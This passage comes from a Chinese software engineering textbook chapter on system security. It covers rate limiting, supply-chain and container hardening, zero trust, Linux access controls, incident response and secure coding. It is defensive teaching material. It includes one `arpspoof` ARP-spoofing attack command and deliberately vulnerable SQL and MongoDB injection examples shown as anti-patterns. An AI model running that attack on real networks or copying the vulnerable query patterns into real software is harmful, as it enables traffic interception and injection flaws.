    """装饰器：限制API调用频率"""
    def decorator(f):
        @wraps(f)
        def wrapper(*args, **kwargs):
            key = f"{current_user.id}:{f.__name__}"
            now = time.time()
            
            # 清理过期记录
            rate_limits[key] = [t for t in rate_limits.get(key, []) if now - t < window_seconds]
            
            if len(rate_limits[key]) >= max_requests:
                retry_after = rate_limits[key][0] + window_seconds - now
                return {"error": "Rate limit exceeded", "retry_after": retry_after}, 429
            
            rate_limits[key].append(now)
            return f(*args, **kwargs)
        return wrapper
    return decorator

@app.get('/api/search')
@rate_limit(max_requests=100, window_seconds=60)
def search(query):
    ...
```

### 34.6.4 API密钥安全

```python
# ❌ 硬编码密钥（绝不应该这样做）
API_KEY = "sk-1234567890abcdef"

# ✅ 环境变量（基本要求）
import os
API_KEY = os.environ["API_KEY"]

# ✅ 密钥管理服务（生产推荐）
import boto3

def get_api_key(name: str) -> str:
    client = boto3.client('secretsmanager')
    response = client.get_secret_value(SecretId=name)
    return response['SecretString']

# ✅ API密钥轮换
# 定期轮换密钥，使用双密钥过渡期
```

***

## 34.7 网络攻击与防御

### 34.7.1 中间人攻击（MITM）

攻击者在通信双方之间插入自己，可以窃听和篡改数据。在公共WiFi环境中极为常见。

**常见MITM攻击方式**：

| 攻击方式 | 原理 | 防御 |
|----------|------|------|
| ARP欺骗 | 伪造ARP响应，将流量引导到攻击者 | 静态ARP、DAI（动态ARP检测） |
| DNS劫持 | 篡改DNS响应，将域名指向恶意IP | DNSSEC、DoH/DoT |
| SSL Stripping | 将HTTPS降级为HTTP | HSTS头、HSTS Preload |
| 证书伪造 | 使用伪造的SSL证书 | 证书固定（Certificate Pinning） |
| WiFi Evil Twin | 伪造WiFi热点 | 不连接未知WiFi、使用VPN |

**防御措施**：
- HTTPS/TLS加密（使用TLS 1.3）
- HSTS头强制HTTPS（`Strict-Transport-Security: max-age=63072000; includeSubDomains; preload`）
- 证书固定（Certificate Pinning）
- VPN加密隧道
- 使用DNS over HTTPS（DoH）

### 34.7.2 DDoS攻击

分布式拒绝服务攻击通过大量请求耗尽目标资源。

**攻击类型与防御**：

| 类型 | 攻击方式 | 防御措施 |
|------|----------|----------|
| 容量攻击 | UDP洪水、ICMP洪水、DNS放大 | CDN、Anycast、带宽清洗 |
| 协议攻击 | SYN洪水、Ping of Death、Teardrop | SYN Cookie、防火墙状态检测 |
| 应用层攻击 | HTTP洪水、Slowloris、CC攻击 | WAF、速率限制、JavaScript挑战 |

**SYN Cookie原理**：服务器收到SYN时不分配资源，而是将连接信息编码到返回的SYN-ACK序列号中。客户端回复ACK时，服务器验证序列号还原信息，避免了半连接（half-open）耗尽资源。

### 34.7.3 DNS安全



**DNS安全措施**：
- **DNSSEC**：对DNS响应进行数字签名，防止篡改
- **DNS over HTTPS（DoH）**：加密DNS查询，防止窃听
- **DNS over TLS（DoT）**：通过TLS加密DNS通信
- **DNS防火墙**：过滤恶意域名

***

## 34.8 CI/CD与供应链安全

### 34.8.1 CI/CD流水线安全

CI/CD流水线是现代软件交付的核心，也是攻击者的重要目标。一旦攻破流水线，就能向所有用户分发恶意代码。

**CI/CD安全威胁模型**：

| 威胁 | 描述 | 真实案例 |
|------|------|----------|
| 凭证泄露 | CI/CD中的密钥被窃取 | Travis CI日志泄露AWS密钥 |
| 依赖投毒 | 恶意包通过依赖链注入 | event-stream (npm) |
| 构建环境篡改 | 攻击者修改构建服务器 | SolarWinds构建系统被入侵 |
| 制品篡改 | 修改已构建的制品 | 供应链攻击的核心手法 |
| 恶意PR | 通过代码审查引入后门 | ua-parser-js被植入挖矿代码 |

**CI/CD安全实践**：

```yaml
# GitHub Actions安全配置示例
name: Secure CI/CD
on: [push, pull_request]

permissions:
  contents: read          # 最小权限：只读
  packages: write         # 只在需要时授予

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0  # 完整克隆用于签名验证
      
      # 依赖审计
      - name: Audit dependencies
        run: |
          npm audit --audit-level=high
          pip-audit
      
      # SAST扫描
      - name: CodeQL Analysis
        uses: github/codeql-action/analyze@v3
      
      # 构建并签名
      - name: Build and sign
        run: |
          make build
          cosign sign --key cosign.key $IMAGE
      
      # 镜像扫描
      - name: Scan container image
        run: trivy image --severity HIGH,CRITICAL $IMAGE
```

### 34.8.2 软件物料清单（SBOM）

SBOM（Software Bill of Materials）是软件包含的所有组件的清单，类似于食品的成分表。在供应链攻击频发的背景下，SBOM已成为安全合规的必备要求。

```bash
# 生成SBOM（使用Syft）
syft scan dir:./myapp -o spdx-json > sbom.spdx.json

# 使用SBOM检查漏洞
grype sbom:sbom.spdx.json --fail-on high

# SBOM标准格式
# SPDX（Linux Foundation）
# CycloneDX（OWASP）
```

**SBOM关键字段**：
- 组件名称和版本
- 组件的唯一标识符（如CPE、PURL）
- 许可证信息
- 依赖关系图
- 已知漏洞（与CVE数据库关联）

### 34.8.3 代码签名与完整性验证

```bash
# 使用cosign签名容器镜像
cosign sign --key cosign.key registry.example.com/myapp:v1.0

# 验证签名
cosign verify --key cosign.pub registry.example.com/myapp:v1.0

# Sigstore：免密钥签名（使用OIDC身份）
cosign sign registry.example.com/myapp:v1.0  # 使用GitHub OIDC
cosign verify --certificate-identity=user@example.com \
              --certificate-issuer=https://accounts.google.com \
              registry.example.com/myapp:v1.0
```

***

## 34.9 安全开发生命周期（SDL）

### 34.9.1 SDL阶段



**DevSecOps**：将安全自动化嵌入DevOps流水线，实现"安全左移"（Shift Left Security）：

- **静态应用安全测试（SAST）**：在代码编写阶段扫描源代码漏洞
- **动态应用安全测试（DAST）**：在运行时扫描应用漏洞
- **软件成分分析（SCA）**：扫描第三方依赖的已知漏洞
- **交互式应用安全测试（IAST）**：在测试运行时监控应用行为
- **秘密扫描（Secret Scanning）**：检测代码中的硬编码密钥

### 34.9.2 OWASP Top 10（2021）

| 排名 | 风险 | 描述 | 关键防御 |
|------|------|------|----------|
| A01 | 访问控制失效 | 权限检查不当，越权访问 | RBAC/ABAC、最小权限 |
| A02 | 加密失败 | 敏感数据未加密或弱加密 | TLS 1.3、AES-256、密钥管理 |
| A03 | 注入 | SQL/NoSQL/OS命令注入 | 参数化查询、输入验证 |
| A04 | 不安全设计 | 缺乏安全架构 | 威胁建模、安全设计原则 |
| A05 | 安全配置错误 | 默认配置、不必要的功能 | 最小化安装、自动化配置管理 |
| A06 | 脆弱过时组件 | 使用有漏洞的库 | SBOM、自动依赖更新 |
| A07 | 身份认证失败 | 弱认证机制 | MFA、强密码策略、限速 |
| A08 | 软件和数据完整性失败 | 未验证软件更新 | 代码签名、SBOM、CI/CD安全 |
| A09 | 安全日志和监控失败 | 缺乏审计日志 | SIEM、告警、日志保护 |
| A10 | 服务器端请求伪造 | SSRF漏洞 | URL白名单、禁用内网访问 |

***

## 34.10 零信任架构

### 34.10.1 核心原则

零信任（Zero Trust）不是单一产品或技术，而是一套安全架构理念，其核心假设是：**永远不信任，始终验证（Never Trust, Always Verify）**。

传统安全模型基于"城堡与护城河"——外网不安全，内网安全。但现代环境中，这种假设已不再成立：云服务模糊了网络边界、远程办公使员工从任意网络访问资源、供应链攻击从内部发起。

**零信任三大原则**：

1. **显式验证（Verify Explicitly）**：每次访问请求都基于所有可用数据点进行认证和授权——用户身份、设备健康、位置、行为模式、数据敏感度
2. **最小权限访问（Least Privilege Access）**：只授予完成任务所需的最小权限，使用JIT/JEA（Just-In-Time/Just-Enough-Access）动态提升权限
3. **假设已被入侵（Assume Breach）**：设计系统时假设攻击者已经在网络内部，通过微分段、加密、持续监控限制爆炸半径

### 34.10.2 零信任架构组件



**核心组件**：
- **身份提供者（IdP）**：统一的身份认证和条件访问策略
- **策略引擎（PDP/PEP）**：基于多维度数据做出访问决策
- **资源网关**：所有资源通过网关访问，不直接暴露
- **微分段**：将网络划分为细粒度的安全区域
- **设备健康评估**：检查设备补丁状态、杀毒软件、加密状态
- **UEBA（用户和实体行为分析）**：通过ML检测异常行为

### 34.10.3 零信任实施路径

| 阶段 | 目标 | 关键动作 |
|------|------|----------|
| 第一阶段 | 身份基础 | 部署MFA、统一身份、SSO |
| 第二阶段 | 设备信任 | 设备注册、健康检查、EDR部署 |
| 第三阶段 | 网络微分段 | 服务间mTLS、网络策略、ZTNA |
| 第四阶段 | 数据保护 | 数据分类、DLP、加密 |
| 第五阶段 | 持续验证 | 行为分析、自适应策略、自动化响应 |

**mTLS（双向TLS）**：服务间通信不仅验证服务端身份，也验证客户端身份，确保只有合法的服务才能相互通信。

```yaml
# Kubernetes NetworkPolicy 示例（微分段）
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-server-policy
spec:
  podSelector:
    matchLabels:
      app: api-server
  policyTypes:
    - Ingress
    - Egress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: frontend
      ports:
        - port: 8080
  egress:
    - to:
        - podSelector:
            matchLabels:
              app: database
      ports:
        - port: 5432
```

***

## 34.11 网络攻击与防御（扩展）

### 34.11.1 DNS劫持与防御

DNS劫持将合法域名的解析结果重定向到恶意IP。攻击者可以通过入侵DNS服务器、篡改本地DNS缓存、或在路由器层面实施劫持。

**防御**：
- 部署DNSSEC（DNS Security Extensions）对DNS响应签名
- 使用DoH（DNS over HTTPS）或DoT（DNS over TLS）加密DNS查询
- 配置DNS pinning（固定DNS结果一段时间）
- 使用可信的DNS解析器（如Cloudflare 1.1.1.1、Google 8.8.8.8）

### 34.11.2 ARP欺骗与防御

ARP（Address Resolution Protocol）将IP地址映射到MAC地址。ARP协议没有认证机制，攻击者可以发送伪造的ARP响应，将自己插入通信路径。

```bash
# 攻击示例（仅用于安全测试）
arpspoof -i eth0 -t victim_ip gateway_ip

# 防御措施
# 1. 静态ARP绑定（适用于小型网络）
arp -s gateway_ip gateway_mac

# 2. 动态ARP检测（DAI，适用于企业交换机）
# 在Cisco交换机上启用DAI
ip arp inspection vlan 10
```

***

## 34.12 操作系统安全

### 34.12.1 SELinux

SELinux（Security-Enhanced Linux）由NSA开发，实现强制访问控制（MAC）。在SELinux中，即使进程以root身份运行，也受策略约束。

```bash
# SELinux上下文格式
user:role:type:level

# 类型强制（Type Enforcement）示例
# 允许httpd进程读取Web内容
allow httpd_t httpd_sys_content_t:file { read open getattr };

# SELinux操作命令
getenforce                    # 查看状态
setenforce 1                  # 开启（Enforcing）
setenforce 0                  # 临时关闭（Permissive）
semanage fcontext -a -t httpd_sys_content_t "/webdata(/.*)?"  # 设置文件上下文
restorecon -Rv /webdata       # 恢复默认上下文
```

**策略类型**：
- **目标策略（Targeted）**：仅限制特定服务（默认，推荐）
- **严格策略（Strict）**：限制所有进程（安全要求极高的环境）

**SELinux vs AppArmor对比**：

| 特性 | SELinux | AppArmor |
|------|---------|----------|
| 策略模型 | 类型强制（TE）+ 角色 | 路径-based |
| 复杂度 | 高（学习曲线陡峭） | 低（更易上手） |
| 精细度 | 非常高（标签级别） | 中等（路径级别） |
| 发行版默认 | RHEL/CentOS/Fedora | Ubuntu/Debian/SUSE |
| 容器支持 | 好（ MCS标签） | 好（profile模式） |

### 34.12.2 seccomp

seccomp（Secure Computing Mode）限制进程可使用的系统调用，是容器和沙箱的核心安全机制。

```c
#include <linux/seccomp.h>
#include <linux/filter.h>

// BPF过滤器示例：只允许read、write、exit三个系统调用
struct sock_filter filter[] = {
    // 加载系统调用号
    BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, nr)),
    
    // 如果是read，允许
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_read, 0, 1),
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
    
    // 如果是write，允许
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_write, 0, 1),
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
    
    // 如果是exit，允许
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit, 0, 1),
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
    
    // 其他所有系统调用，杀死进程
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
};
```

### 34.12.3 Linux Capabilities

Linux Capabilities将传统的"全有或全无"的root权限细分为40多个独立的能力。即使进程以root运行，也可以只授予必要的capabilities。

| Capability | 功能 | 典型用途 |
|------------|------|----------|
| CAP_NET_BIND_SERVICE | 绑定1024以下端口 | Web服务器绑定80/443 |
| CAP_NET_RAW | 使用原始套接字 | ping、traceroute |
| CAP_SYS_ADMIN | 大量系统管理操作 | mount、namespace操作 |
| CAP_DAC_OVERRIDE | 绕过文件权限检查 | 调试工具 |
| CAP_SETUID | 修改进程UID | su、sudo |
| CAP_CHOWN | 修改文件所有者 | 文件管理工具 |

```bash
# 查看进程的capabilities
getpcaps <pid>

# 给程序赋予特定capabilities
setcap cap_net_bind_service=+ep /usr/bin/myserver

# 移除所有capabilities
setcap -r /usr/bin/myserver

# Docker中使用capabilities
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE myimage
```

***

## 34.13 容器安全

### 34.13.1 容器隔离机制

容器不是虚拟机——它共享宿主机内核，通过Namespace和Cgroup实现隔离和限制。

**Namespace隔离**（可见性隔离）：

| Namespace | 隔离内容 | 效果 |
|-----------|----------|------|
| PID | 进程ID | 容器内只能看到自己的进程 |
| Network | 网络栈 | 独立的IP、端口、路由表 |
| Mount | 文件系统 | 独立的文件系统视图 |
| User | 用户ID | 容器内root≠宿主机root |
| UTS | 主机名 | 独立的hostname |
| IPC | 进程间通信 | 独立的信号量、消息队列 |
| Cgroup | 资源视图 | 只看到自己的资源限制 |

**Cgroup限制**（资源隔离）：
- CPU使用限制（shares、quota）
- 内存使用限制（hard limit、soft limit）
- I/O带宽限制（读写速率、IOPS）
- 进程数量限制（pids.max）
- 网络带宽限制（通过tc）

### 34.13.2 容器安全最佳实践

```dockerfile
# ❌ 不安全的容器
FROM ubuntu:latest              # 使用latest标签（不可预测）
RUN apt-get install -y everything  # 安装不需要的包（增大攻击面）
USER root                       # 以root运行
COPY . /app                    # 复制所有文件（可能包含.git、.env）
CMD ["./app"]                  # 无健康检查

# ✅ 安全的容器
FROM gcr.io/distroless/static-debian12:nonroot  # 最小镜像
COPY --from=builder /app/server /server          # 只复制必要文件
USER nonroot:nonroot            # 非root用户
ENTRYPOINT ["/server"]          # 明确的入口点
# 不需要CMD，distroless没有shell
```

**Docker安全配置**：

```yaml
# docker-compose.yml 安全配置
services:
  app:
    image: myapp:1.0.0@sha256:abc123...  # 使用digest固定版本
    read_only: true                       # 只读文件系统
    security_opt:
      - no-new-privileges:true           # 禁止提权
    cap_drop:
      - ALL                              # 移除所有capabilities
    cap_add:
      - NET_BIND_SERVICE                 # 只添加需要的
    tmpfs:
      - /tmp                             # 临时目录
    deploy:
      resources:
        limits:
          memory: 512M
          cpus: '0.5'
    logging:
      driver: json-file
      options:
        max-size: "10m"
        max-file: "3"
```

**Kubernetes安全上下文**：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 65534        # nobody用户
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault  # 使用运行时默认的seccomp profile
  containers:
  - name: app
    image: myapp@sha256:abc123
    securityContext:
      allowPrivilegeEscalation: false  # 禁止提权
      readOnlyRootFilesystem: true     # 只读根文件系统
      capabilities:
        drop: ["ALL"]                  # 移除所有capabilities
    resources:
      limits:
        memory: "256Mi"
        cpu: "500m"
```

### 34.13.3 容器镜像安全扫描

```bash
# Trivy：全面的漏洞扫描器
trivy image nginx:latest
trivy image --severity HIGH,CRITICAL --exit-code 1 nginx:latest  # CI中使用

# Docker Bench Security：检查Docker配置是否符合最佳实践
docker run --rm --net host --pid host --userns host --cap-add audit_control \
    -v /var/lib:/var/lib \
    -v /var/run/docker.sock:/var/run/docker.sock \
    docker/docker-bench-security

# Grype：轻量级漏洞扫描
grype nginx:latest

# 检查容器运行时状态
docker inspect --format='{{.HostConfig.Privileged}}' container_name
docker inspect --format='{{.AppArmorProfile}}' container_name
```

### 34.13.4 增强隔离方案

| 方案 | 原理 | 性能开销 | 安全性 |
|------|------|----------|--------|
| gVisor | 用户态内核，拦截系统调用 | 中等 | 高（减少内核攻击面） |
| Kata Containers | 轻量级VM + 容器接口 | 较高 | 非常高（硬件级隔离） |
| Firecracker | AWS Lambda使用的microVM | 较高 | 非常高（AWS验证） |
| Nabla Containers | Library OS方式 | 中等 | 高（最小系统调用集） |

***

## 34.14 安全事件响应

### 34.14.1 事件响应流程

安全事件不可避免，关键在于快速检测、有效遏制、彻底根除和及时恢复。



### 34.14.2 事件响应团队（CSIRT）

| 角色 | 职责 |
|------|------|
| 事件指挥官（IC） | 总协调，决策制定 |
| 技术分析师 | 日志分析、恶意软件分析、取证 |
| 沟通协调员 | 内外部沟通、媒体应对 |
| 法律顾问 | 合规要求、证据保全、法律建议 |
| 恢复工程师 | 系统恢复、补丁部署 |

### 34.14.3 事件分级

| 级别 | 定义 | 响应时间 | 示例 |
|------|------|----------|------|
| P1-紧急 | 业务完全中断或大规模数据泄露 | 15分钟 | 勒索软件加密、生产数据库泄露 |
| P2-严重 | 核心功能受损或敏感数据面临风险 | 1小时 | RCE漏洞被利用、内部网络被入侵 |
| P3-一般 | 非核心功能受影响或低风险漏洞 | 4小时 | 单个服务异常、低危漏洞 |
| P4-低 | 安全事件但无实际影响 | 24小时 | 扫描探测、无效攻击尝试 |

### 34.14.4 数字取证基础

```bash
# 取证保全原则：先保存现场，再分析
# 1. 网络连接状态
netstat -tlnpa > connections.txt
ss -tlnpa >> connections.txt

# 2. 进程信息
ps auxf > processes.txt
ls -la /proc/*/exe 2>/dev/null > proc_exe.txt

# 3. 内存转储（使用LiME内核模块）
insmod lime.ko "path=/tmp/memdump.lime format=lime"

# 4. 磁盘镜像（使用dd）
dd if=/dev/sda of=/external/disk.img bs=4M status=progress

# 5. 日志保全
cp -a /var/log/ /evidence/logs/
md5sum /evidence/logs/* > /evidence/logs/checksums.md5
```

***

## 参考资料

1. OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/
2. OWASP API Security Top 10: https://owasp.org/API-Security/
3. MITRE ATT&CK: https://attack.mitre.org/
4. NIST SP 800-53: Security and Privacy Controls
5. NIST Zero Trust Architecture (SP 800-207): https://csrc.nist.gov/pubs/sp/800/207/final
6. Docker Security Best Practices: https://docs.docker.com/engine/security/
7. Kubernetes Security Context: https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
8. CIS Benchmarks: https://www.cisecurity.org/cis-benchmarks
9. SBOM Best Practices (NTIA): https://www.ntia.doc.gov/SBOM
10. Sigstore: https://www.sigstore.dev/

***

*软件工程核心知识体系 · 第34章 · 理论基础*


***

# 第34章-系统安全：核心技巧

## 34.1 安全编码实践

### 34.1.1 输入验证

所有外部输入都是不可信的，必须进行严格的验证和清理。**验证应在服务端进行**，前端验证仅用于用户体验。

```python
import re
from typing import Optional

def validate_username(username: str) -> Optional[str]:
    """验证用户名：只允许字母、数字、下划线，3-32字符"""
    if not username:
        return None
    if len(username) < 3 or len(username) > 32:
        return None
    if not re.match(r'^[a-zA-Z_][a-zA-Z0-9_]{2,31}$', username):
        return None
    return username

def validate_email(email: str) -> Optional[str]:
    """验证邮箱格式（RFC 5322简化版）"""
    pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    if re.match(pattern, email):
        return email.lower().strip()
    return None

def sanitize_html(user_input: str) -> str:
    """清理HTML输入，防止XSS"""
    from markupsafe import escape
    return str(escape(user_input))

def validate_json_schema(data: dict, required_fields: dict) -> bool:
    """基于schema验证JSON输入"""
    for field, expected_type in required_fields.items():
        if field not in data:
            return False
        if not isinstance(data[field], expected_type):
            return False
    return True
```

**输入验证原则**：
- **白名单优于黑名单**：只允许已知安全的字符/格式，而非尝试排除已知危险的
- **长度限制**：所有输入都应有最大长度限制
- **类型检查**：确保输入符合预期的数据类型
- **编码感知**：注意Unicode规范化、编码混淆（UTF-8/UTF-16/ISO-8859-1）

### 34.1.2 参数化查询

```python
# ❌ SQL注入风险：字符串拼接
def get_user_unsafe(username):
    query = f"SELECT * FROM users WHERE username = '{username}'"
    return db.execute(query)

# ✅ 参数化查询
def get_user_safe(username):
    query = "SELECT * FROM users WHERE username = %s"
    return db.execute(query, (username,))

# ✅ ORM方式（SQLAlchemy）
def get_user_orm(username):
    return User.query.filter_by(username=username).first()

# ✅ MongoDB（避免$where注入）
def get_user_mongo(username):
    return db.users.find_one({"username": username})  # ✅ 安全
    # db.users.find({"$where": f"this.username == '{username}'"})  # ❌ 危险
```

### 34.1.3 安全的密码处理

```python
import secrets
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError

# Argon2id：2015年密码哈希竞赛冠军，抗GPU/ASIC攻击
ph = PasswordHasher(
    time_cost=3,        # 迭代次数
    memory_cost=65536,  # 内存使用（64MB）
    parallelism=4,      # 并行线程数
    hash_len=32,        # 哈希长度
    salt_len=16         # 盐长度
)

def hash_password(password: str) -> str:
    """哈希密码"""
    return ph.hash(password)

def verify_password(stored_hash: str, password: str) -> bool:
    """验证密码，使用常量时间比较防止时序攻击"""
    try:
        return ph.verify(stored_hash, password)
    except VerifyMismatchError:
        return False
```

**密码哈希方案对比**：

| 算法 | 抗GPU | 内存开销 | 推荐度 |
|------|-------|----------|--------|
| Argon2id | 强 | 可配置（推荐64MB+） | ⭐⭐⭐⭐⭐ |
| bcrypt | 中 | 低 | ⭐⭐⭐⭐ |
| scrypt | 强 | 可配置 | ⭐⭐⭐⭐ |
| PBKDF2 | 弱 | 低 | ⭐⭐⭐ |
| MD5/SHA1 | 极弱 | 极低 | ❌ 禁止使用 |

### 34.1.4 安全的随机数生成

```python
import secrets
import os

# ❌ 不安全：伪随机数（可预测）
import random
random.randint(0, 255)           # ❌ 不用于安全场景
random.choice("abcdef")          # ❌ 可预测

# ✅ 安全：密码学安全随机数
secrets.randbelow(256)           # ✅ 0-255的安全随机数
secrets.token_hex(32)            # ✅ 64字符的十六进制token
secrets.token_urlsafe(32)        # ✅ URL安全的token
os.urandom(32)                   # ✅ 32字节随机数据

# 生成安全的API密钥
def generate_api_key() -> str:
    return f"sk-{secrets.token_hex(32)}"

# 生成安全的会话ID
def generate_session_id() -> str:
    return secrets.token_urlsafe(48)
```

***

## 34.2 Web安全防护

### 34.2.1 CSRF防护实现

```python
from flask import Flask, session, request, abort
import secrets

app = Flask(__name__)

@app.before_request
def csrf_protect():
    """对所有状态修改请求验证CSRF Token"""
    if request.method in ("POST", "PUT", "DELETE", "PATCH"):
        # 也检查JSON请求
        if request.is_json:
            token = request.headers.get('X-CSRF-Token')
        else:
            token = request.form.get('_csrf_token')
        
        if not token or not secrets.compare_digest(token, session.get('_csrf_token', '')):
            abort(403)

def generate_csrf_token():
    """生成CSRF Token"""
    if '_csrf_token' not in session:
        session['_csrf_token'] = secrets.token_hex(32)
    return session['_csrf_token']
```

### 34.2.2 安全的Session管理

```python
from flask import Flask

app = Flask(__name__)
app.config.update(
    # Cookie安全属性
    SESSION_COOKIE_SECURE=True,       # 仅通过HTTPS传输
    SESSION_COOKIE_HTTPONLY=True,      # 禁止JavaScript访问
    SESSION_COOKIE_SAMESITE='Lax',    # 跨站请求限制
    SESSION_COOKIE_NAME='__Host-sid', # Cookie前缀（强制Secure+Path=/）
    
    # 会话生命周期
    PERMANENT_SESSION_LIFETIME=3600,  # 1小时过期
    
    # 会话存储
    SESSION_TYPE='redis',             # 服务端存储（可随时吊销）
    SESSION_REDIS=redis.Redis(host='localhost', port=6379, db=0),
)

# Cookie前缀规范：
# __Host- 前缀：强制Secure=true, Path=/, 无Domain属性
# __Secure- 前缀：强制Secure=true
# 这些前缀由浏览器强制执行，防止Cookie覆盖攻击
```

### 34.2.3 安全响应头配置

```python
@app.after_request
def set_security_headers(response):
    # 防止MIME类型嗅探
    response.headers['X-Content-Type-Options'] = 'nosniff'
    
    # 防止点击劫持（不允许iframe嵌入）
    response.headers['X-Frame-Options'] = 'DENY'
    
    # XSS保护（现代浏览器已内置，但向后兼容）
    response.headers['X-XSS-Protection'] = '1; mode=block'
    
    # 强制HTTPS（HSTS）
    response.headers['Strict-Transport-Security'] = 'max-age=63072000; includeSubDomains; preload'
    
    # 内容安全策略
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' 'nonce-{random}'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data: https:; "
        "frame-ancestors 'none'; "
        "base-uri 'self'; "
        "form-action 'self'"
    )
    
    # 控制Referer头泄露
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    
    # 限制浏览器功能
    response.headers['Permissions-Policy'] = 'camera=(), microphone=(), geolocation=()'
    
    # 防止预连接泄露
    response.headers['X-DNS-Prefetch-Control'] = 'off'
    
    return response
```

### 34.2.4 CSP（Content Security Policy）详解

CSP是防御XSS的最强大武器，它告诉浏览器只执行来自可信来源的脚本和资源。

```bash
# 常用CSP指令
Content-Security-Policy:
    default-src 'self';                    # 默认策略：只允许同源
    script-src 'self' 'nonce-abc123';      # 脚本来源：同源 + 带nonce的内联脚本
    style-src 'self' 'unsafe-inline';      # 样式来源：同源 + 内联样式
    img-src 'self' data: https:;           # 图片来源：同源 + data URL + HTTPS
    font-src 'self' https://fonts.gstatic.com;  # 字体来源
    connect-src 'self' https://api.example.com; # AJAX/WebSocket来源
    frame-ancestors 'none';                # 禁止被iframe嵌入
    base-uri 'self';                       # 限制<base>标签
    form-action 'self';                    # 限制表单提交目标
    report-uri /csp-report;                # 违规报告地址
```

**CSP部署策略**：先用`Content-Security-Policy-Report-Only`头测试，收集违规报告后再强制执行。

***

## 34.3 认证安全

### 34.3.1 多因素认证（MFA）

```python
import pyotp
import qrcode
from io import BytesIO

def setup_totp(user_id: str) -> dict:
    """设置TOTP双因素认证"""
    secret = pyotp.random_base32()
    
    # 存储secret（加密后）
    store_encrypted_secret(user_id, secret)
    
    # 生成TOTP URI
    totp = pyotp.TOTP(secret)
    uri = totp.provisioning_uri(
        name=user_id,
        issuer_name="MyApp"
    )
    
    # 生成二维码
    qr = qrcode.QRCode(version=1, box_size=10, border=5)
    qr.add_data(uri)
    qr.make(fit=True)
    img = qr.make_image(fill_color="black", back_color="white")
    
    buf = BytesIO()
    img.save(buf)
    
    return {
        "secret": secret,    # 显示给用户保存
        "qr_code": buf.getvalue(),
        "uri": uri
    }

def verify_totp(user_id: str, code: str) -> bool:
    """验证TOTP码"""
    secret = get_encrypted_secret(user_id)
    totp = pyotp.TOTP(secret)
    # valid_window=1 允许前后30秒的偏差
    return totp.verify(code, valid_window=1)

# MFA方案对比
# 1. TOTP（时间型一次性密码）：最常用，兼容Google Authenticator/Authy
# 2. HOTP（计数型一次性密码）：基于计数器，适用于硬件Token
# 3. WebAuthn/FIDO2：基于公钥密码学，安全性最高
# 4. SMS验证码：安全性最低（SIM Swap攻击），不推荐
```

### 34.3.2 登录安全

```python
import time
